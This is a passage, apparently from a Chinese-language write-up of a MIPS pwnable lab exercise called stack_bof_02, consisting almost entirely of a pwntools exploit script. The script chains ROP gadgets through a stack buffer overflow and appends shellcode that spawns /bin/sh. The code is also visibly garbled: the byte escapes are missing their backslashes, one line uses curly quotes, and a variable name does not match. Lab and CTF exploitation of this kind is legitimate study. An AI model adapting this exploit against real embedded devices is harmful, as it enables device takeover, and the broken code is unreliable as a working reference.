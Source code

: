 完整的payload  
```
from pwn import*
context.binary ="./pwnable/ShellCode_Required/stack_bof_02"
context.arch ="mips"
context.endian ="little"
gadget1=0x7f714b10
gadget2=0x7f6eba50
gadget3=0x7f705f1c
gadget4=0x7f6fbdd0
gadget5=0x7f7064a0
sleep_addr=0x7f7142b0

shellcode =“”
shellcode +="xffxffx06x28"# slti $a2, $zero, -1
shellcode +="x62x69x0fx3c"# lui $t7, 0x6962
shellcode +="x2fx2fxefx35"# ori $t7, $t7, 0x2f2f
shellcode +="xf4xffxafxaf"# sw $t7, -0xc($sp)
shellcode+="x73x68x0ex3c"# lui $t6, 0x6873
shellcode +="x6ex2fxcex35"# ori $t6, $t6, 0x2f6e
shellcode +="xf8xffxaexaf"# sw $t6, -8($sp)
shellcode +="xfcxffxa0xaf"# sw $zero, -4($sp)
shellcode +="xf4xffxa4x27"# addiu $a0, $sp, -0xc
shellcode +="xffxffx05x28"# slti $a1, $zero, -1
shellcode +="xabx0fx02x24"# addiu;$v0, $zero, 0xfab
shellcode +="x0cx01x01x01"# syscall 0x40404

payload="a"*508
payload+=p32(gadget2)
payload+="b"*0x58
payload+="cccc"#覆盖s0
payload+=p32(gadget3)#覆盖s1
payload+=p32(sleep)#覆盖s2，写入sleep
payload+=p32(gadget1)

payload+="c"*0x18#gadget3需要调整的shellcode位置的字节码
payload+=p32(gadget5)#覆盖$s0
payload+="aaaa"#覆盖$s1
payload+="aaaa"#覆盖$s2
payload+=p32(gadget4)#覆盖$ra

payload+="f"*0x18
payload += p32(0xdeadbeef)
payload += shellcode

with open("stack_bof_02_pyload","w")as file:
    file.write(payload)
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldzgr2BfvRHQPINwcTfnsPQKtjE0DiblcN63eEibicsZKU7kSOOF59puLa74zx5x7DHYkB22E1ibWLBtHQ/640?wx_fmt=png&from=appmsg "")  
  
  